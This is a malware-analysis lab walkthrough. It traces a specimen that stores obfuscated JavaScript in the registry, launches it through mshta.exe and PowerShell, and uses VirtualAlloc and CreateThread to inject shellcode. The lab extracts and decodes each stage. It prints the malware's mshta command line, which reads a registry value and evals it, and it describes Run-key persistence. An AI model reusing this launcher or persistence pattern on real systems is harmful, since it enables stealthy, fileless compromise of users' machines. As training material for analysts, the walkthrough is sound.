








# Lab 4.5: Analyzing Multi-Technology Specimen PDFXCview.exe
- [Lab 4.5: Analyzing Multi-Technology Specimen PDFXCview.exe](#lab-45-analyzing-multi-technology-specimen-pdfxcviewexe)
  - [Objectives](#objectives)
  - [Steps](#steps)
  - [1 - Infect your Windows REM Workstation with PDFXCview.exe and use Process Monitor to monitor](#1---infect-your-windows-rem-workstation-with-pdfxcviewexe-and-use-process-monitor-to-monitor)
  - [2 - Examine PDFXCview.exe infection details by loading the Process Monitor log in ProcDOT](#2---examine-pdfxcviewexe-infection-details-by-loading-the-process-monitor-log-in-procdot)
  - [3 - Look at the Registry to examine the command that the specimen wants Windows to execute when opening files whose names end with the extension that PDFXCview.exe generated during the infection.](#3---look-at-the-registry-to-examine-the-command-that-the-specimen-wants-windows-to-execute-when-opening-files-whose-names-end-with-the-extension-that-pdfxcviewexe-generated-during-the-infection)
  - [4 - Use reg_export to extract the JavaScript script discovered in the previous step from the registry to the file named script.js.](#4---use-reg_export-to-extract-the-javascript-script-discovered-in-the-previous-step-from-the-registry-to-the-file-named-scriptjs)
  - [5,6 - Transfer script.js from the Windows REM Workstation to REMnux using WinSCP. Use SpiderMonkey on REMnux to deobfuscate script.js, saving the resulting file as script3.js.](#56---transfer-scriptjs-from-the-windows-rem-workstation-to-remnux-using-winscp-use-spidermonkey-on-remnux-to-deobfuscate-scriptjs-saving-the-resulting-file-as-script3js)
  - [7 - Use base64dump.py to decode and extract the Base64-encoded PS script in script3](#7---use-base64dumppy-to-decode-and-extract-the-base64-encoded-ps-script-in-script3)
  - [8,9 - Use Notepad++ on the Windows REM Workstation to review script.ps1 and determine where will eventually set a breakpoint to extract contents of the $sc32 variable](#89---use-notepad-on-the-windows-rem-workstation-to-review-scriptps1-and-determine-where-will-eventually-set-a-breakpoint-to-extract-contents-of-the-sc32-variable)
  - [10 - Use PowerShell ISE to extract content of the variable $sc32 in script.ps1, saving the result in the raw, binary file named sc32.bin](#10---use-powershell-ise-to-extract-content-of-the-variable-sc32-in-scriptps1-saving-the-result-in-the-raw-binary-file-named-sc32bin)


---

## Objectives

- Learn to analyze malware that incorporates multiple technologies, including obfuscated JavaScript, PowerShell, and shellcode.
- Understand how to examine "file-less" malware that avoids creating malicious files on the file system and stores its components in the registry.
- Reinforce behavioral analysis techniques that involve using Process Hacker, Process Monitor, and ProcDOT.
- Reinforce the use of SpiderMonkey for deobfuscating JavaScript in the context that's different from malicious documents and web pages.
- Learn to use PowerShell ISE for analyzing malicious PowerShell scripts.

<br/>

---

## Steps

1. Infect your Windows REM Workstation with `PDFXCview.exe` while monitoring the infection with **Process Monitor**, killing the resulting malicious processes after about two minutes.
2. Examine `PDFXCview.exe` infection details by loading the **Process Monitor** log in **ProcDOT**.
3. Look at the Registry to examine the command that the specimen wants Windows to execute when opening files whose names end with the extension that `PDFXCview.exe` generated during the infection.
4. Use reg_export to extract the JavaScript script discovered in the previous step from the registry to the file named `script.js`.
5. Transfer `script.js` from the Windows REM Workstation to REMnux using **WinSCP**.
6. Use **SpiderMonkey** on REMnux to deobfuscate `script.js`, saving the resulting file as `script3.js`.
7. Use `base64dump.py` to decode and extract the Base64-encoded PowerShell script from `script3.js`, saving the results in the file named `script.ps1`.
8. Use **WinSCP** to transfer `script.ps1` from REMnux to the Windows REM Workstation.
9. Use Notepad++ on the Windows REM Workstation to review `script.ps1` and determine where will eventually set a breakpoint to extract contents of the `$sc32` variable.
10. Use **PowerShell ISE** to extract content of the variable `$sc32` in `script.ps1`, saving the result in the raw, binary file named `sc32.bin`

<br/>

---

## 1 - Infect your Windows REM Workstation with PDFXCview.exe and use Process Monitor to monitor

Launch **Process Monitor** and **Process Hacker**.

Then run **PDFXCview.exe** and wait for 2 minutes.

- 0th minute

  

<br/>

- 3rd minute

  

- Note that the original file disappears
- The original instance of the executable is terminated
- New instance of `regsvr32.exe` is created

<br/>

Kill `regsvr32.exe` on **Process Hacker** by right-clicking the parent, then `Terminate tree`:

  

<br/>

---

## 2 - Examine PDFXCview.exe infection details by loading the Process Monitor log in ProcDOT

Stop the capturing on **Process Monitor** by clicking the `Capture` button:

  

<br/>

Save the events as CSV format:

  

<br/>

Load the `Logfile.csv` into **ProcDot**, and then click the `...` next to Launcher:

  

<br/>

Double click `PDFXCview.exe`:

  

<br/>

In the meantime, check `Tools > Process Tree` on **Process Monitor**:

  

  

  

- Note the parent process of `regsvc32.exe` is **NOT** `PDFXCview.ex` 
- The generated `regsvr32.exe` process's parent is `powershell.exe`, which is spawned by `mshta.exe`
- `mshta.exe` is executed by WMI from `svchost.exe`, whose parent is `services.exe` and `wininit.exe`

<br/>

---

## 3 - Look at the Registry to examine the command that the specimen wants Windows to execute when opening files whose names end with the extension that PDFXCview.exe generated during the infection.

First check the process `PDFXCView.exe`:

  

  

- It sets these randomly generated registries

<br/>

Also check `regsvr32.exe`:

  

- It creates 2 files:
  - `C:\Users\REM\AppData\Local\8297\d031.2ed62`
  - `C:\Users\REM\AppData\Local\8297\bdf6.bat`
- It also create a AUTORUN registry in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

<br/>

Use **Regedit** to inspect the value set:

  

- It cannot be displayed but why?

<br/>

Look at `ProcDot` again and look at the data set:

  

- There are characters with different encode method, which likely causes the issue when inspecting using `regedit`

<br/>

Inspect the `BAT` file in `%LOCALAPPDATA%\..\Local\8297` using `Notepad++`:

  

- `start "DaPNaD4YH3WG8vpUC06r" "%LOCALAPPDATA%\8297\d031.2ed62"`
- It uses `start` command to start the file `%LOCALAPPDATA%\8297\d031.2ed62`

<br/>

`.2ed62` is an uncommon file extension. To check how Windows will handle it, we can inspect the registry `Computer\HKEY_CURRENT_USER\Software\Classes\.2ed62`:

  

- It points to another class `0346`

<br/>

Check ``Computer\HKEY_CURRENT_USER\Software\Classes\0346` then:

  

- It contains a command of running `mshta.exe` with a JavaScript

<br/>

Here is the data:

```
"C:\WINDOWS\system32\mshta.exe" "javascript:q7NPu5l="C";V9U5=new ActiveXObject("WScript.Shell");OWsV3b3="uUVkpla";CB5GO=V9U5.RegRead("HKCU\\software\\gxyhwinsg\\zbrqoytjz");DXBGFb5Q="CBYls";eval(CB5GO);KkZ28Wlvj="2VV3R9";"
```
<br/>

The above command refers to the data in registry `HKCU\\software\\gxyhwinsg\\zbrqoytjz` - let's inspect `Computer\HKEY_CURRENT_USER\software\gxyhwinsg`:

  

<br/>

Get the data set in `zbrqoytjz`. However, when double-clicking the registry, we cannot copy it out directly.

<br/>

---

## 4 - Use reg_export to extract the JavaScript script discovered in the previous step from the registry to the file named script.js.

Instead, we can use `reg_export` to extract:

```
reg_export HKEY_CURRENT_USER\Software\gxyhwinsg zbrqoytjz script.js
```

  

<br/>

---

## 5,6 - Transfer script.js from the Windows REM Workstation to REMnux using WinSCP. Use SpiderMonkey on REMnux to deobfuscate script.js, saving the resulting file as script3.js.

Use **WinSCP** to trasfer the file to REMnux (first start ssh on REMnux using `sudo service ssh start`):

  

<br/>

Then on REMnux, try to use **SpiderMonkey** to deobfuscate the JavaScript:

```
js -f /usr/share/remnux/objects.js -f script.js
```

  

- However, it indicates the script contains illegal character
- This could be due to the presence of Unicode characters

<br/>

Try to get the strings in Unicode format using `strings --encoding=l` command. Then use `SpiderMonkey` to deobfuscate again:

```
strings --encoding=l script.js > script2.js
js -f /usr/share/remnux/objects.js -f script2.js > script3.js
```

  

- No error occur

<br/>

Inspect `script3.js` using `scite`:

```
scite script3.js
```

  

- It runs a powershell command in the environment variable `ncvdmg`

<br/>

Also note the Base64 encoded content in `script3.js`:

  

<br/>

---

## 7 - Use base64dump.py to decode and extract the Base64-encoded PS script in script3

List the base64 content using `base64dump.py`:

```
base64dump.py script3.js
```

  

- Group 8 is possibly the target group

<br/>

Dump group 8 and save as `script.ps1`:

```
base64dump.py script3.js -s 8 -d > script.ps1
scite script.ps1
```

  

<br/>

---

## 8,9 - Use Notepad++ on the Windows REM Workstation to review script.ps1 and determine where will eventually set a breakpoint to extract contents of the $sc32 variable

On Windows, get `script.ps1` on **WinSCP**:

  

<br/>

Inspect `script.ps1` using **Notepad++**:

  

- Note the variable `$sc32` contains binary content

<br/>

  

- `$memset` is used to copy the content in `$sc32`, and then execute the resulting code by calling `CreateThread`
- `$pr` is a pointer pointing to the base of allocated address space created by `VirtualAlloc`

<br/>

---

## 10 - Use PowerShell ISE to extract content of the variable $sc32 in script.ps1, saving the result in the raw, binary file named sc32.bin

Load `script.ps1` into PowerShell ISE:

  

- Set a breakpoint (hitting `F9`) after the `$sc32` line

  

<br/>

Then run the script:

  

- Note there is a `sleep` function at the beginning so you have to wait for a while

<br/>

  

<br/>

We can now dump the content in `$sc32`:

```
[io.file]::WriteAllBytes('sc32.bin', $sc32)
```

  

<br/>

---